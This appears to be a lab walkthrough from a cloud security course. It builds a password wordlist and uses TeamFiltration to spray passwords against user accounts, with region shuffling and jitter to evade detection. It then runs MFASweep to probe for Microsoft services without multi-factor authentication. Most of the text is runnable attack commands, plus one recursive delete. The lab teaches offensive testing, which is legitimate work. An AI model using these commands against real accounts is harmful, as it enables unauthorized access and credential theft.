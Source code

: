 **Build a wordlist that matches the below syntax**

SnakeJazz2020, which would be: Snake + Jazz + 2020

```python
echo "2019" >> /opt/Wordlister/words.txt
```

```python
echo "2020" >> /opt/Wordlister/words.txt
```

```python
echo "2021" >> /opt/Wordlister/words.txt
```

```python
echo "2022" >> /opt/Wordlister/words.txt
```

** Use the wordlister python script to manipulate the words.txt file**
```python
python3 /opt/Wordlister/wordlister.py --cap --input /opt/Wordlister/words.txt --perm 3 --min 4 --max 30
```
>
    
    --input: `words.txt is the output
    --cap: This capitalizes all the words
    --perm 3: This instructs Wordlister to make a permutation of 3 words
    --min 4: The minimum number of characters is 4
    --max 30: The maximum number of characters is 30

**Validate that what we have done will show us the password of BirdPerson2021, which we can use as a true positive**
```python
cat /opt/Wordlister/output.txt  | grep -E '^BirdPerson2021'
```

**If this command shows BirdPerson2021, we have built a wordlist containing the right format**
```python
cat /opt/Wordlister/output.txt  | grep -v '^20\|Tammy\|Terry\|Gummerman\|terry\|tammy\|jerry\|Jerry\|Smith\|Summer\Sleepy\|sleepy\|gary\|Gary' > /opt/Wordlister/pw1.txt
```

**Run this through the pw-inspector tool from hydra; this tool will remove all small words**
```python
pw-inspector -i /opt/Wordlister/pw1.txt -o /opt/Wordlister/pw2.txt -m 13 -M 20 -c 3 -l -u -n
```
>
    
    -m 13: minimum of 13
    -M 20: maximum of 20
    -c 3 : number of types required for character sets
    -l : lowercase characters
    -u : uppercase characters
    -n : numerical characters

**Next remove all the words that do not reflect, starting with a capitalized character**
```python
sed '/^[[:lower:][:punct:]]/d' /opt/Wordlister/pw2.txt > /opt/Wordlister/pw3.txt
```

**Have the grep command use Regex only to include words that end in numbers**
```python
grep -E '[0-9]$' /opt/Wordlister/pw3.txt > /opt/Wordlister/pw4.txt
```

** Let's validate that the list contains passwords that match our list of words**
```python
cat /opt/Wordlister/pw4.txt | grep '^BirdPerson2021'
```

**Use the TeamFiltration tool to spray usernames**

Sometimes this tool will crash and you will receive the following errors:

    - Cannot resolve the Amazon API Gateway that was just created
    - Too many Gateway request for delete at one time
    - False negatives where this may occur in the middle of a scan

It is important to note that while this may seem like a problem, in many cases deleting the database can help you recover. Here is a simple way to do so
```python
rm -Rf /home/sec588/Coursefiles/workdir/teamfiltration
```

```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --enum --validate-login --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --usernames /home/sec588/Coursefiles/workdir/users.txt
```

**TEAMFILTRATION COMMAND TO EXECUTE!**
```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --spray --validate-login --sleep-min 1 --sleep-max 3 --jitter 1 --usernames /home/sec588/Coursefiles/workdir/users.txt --passwords /home/sec588/Coursefiles/workdir/passwords.txt --shuffle-users --shuffle-regions
```
>
    
    --usernames: A file containing the usernames
    --outpath: This is the location where the teamfiltration database will live
    --config: This is the configuration file to use
    --validate-login: Use the more "noisy" flag in this way it will have 1 bad password attempt per email address
    --spray: This is to perform a password spraying attack
    --sleep-min: This will set the minimal sleep interval (1 minutes)
    --sleep-max: This will set the maximum internal to wait (3 minutes)
    --jitter: This is the amount to jitter between maximum and minimum time intervals
    --usernames: This is the file containing usernames
    --passwords: This is the file containing passwords
    --shuffle-users: This command is to shuffle the usernames to test so that they are tested in different orders
    --shuffle-region: This command is to shuffle between regions

**View results with the --database flag**
```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --database
```
```python
show creds
```
```python
exit
```
**Launch a tool set called MFASweep which will allow us to check for MultiFactor Authentication on many Microsoft Services**
**Run pwsh command to launch MFASweep.ps1**
```python
pwsh
```
Import-Module ./MFASweep.ps1

```python
Invoke-MFASweep -Username summer@sec588.org -Password SnakeJazz2020
```

